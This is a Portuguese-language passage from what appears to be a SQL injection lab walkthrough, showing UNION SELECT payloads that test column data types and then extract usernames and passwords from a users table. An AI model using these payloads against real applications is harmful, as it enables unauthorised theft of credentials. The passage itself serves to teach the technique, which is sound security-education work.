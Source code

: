 Como já sabemos onde explorar o SQL Injection e o número de colunas, vamos direto para descobrir os tipos de dados das colunas, para isso, utilizaremos o seguinte payload:

```sql
' Union Select 'aaa', Null --
```

![tipos](multiple_aaa.PNG)

Como a query acima retornou erro, sabemos que o tipo de dado da primeira coluna não é `text`, então não vamos poder utilizar ela para recuperar os dados da tabela `users`. Agora vamos tentar a segunda coluna.

```sql

' Union Select Null, 'bbb' --
```

![tipos](multiple_bbb.PNG)

Já a segunda coluna não retornou erro, então sabemos que o tipo de dado dela é `text`. Agora vamos utilizar ela para recuperar os dados da tabela `users`.

Então teremos que concatenar os valores da tabela `users` para que eles sejam retornados em uma única coluna, para isso, utilizaremos o seguinte payload:

```sql
' UNION SELECT NULL,username||'~'||password FROM users--
```
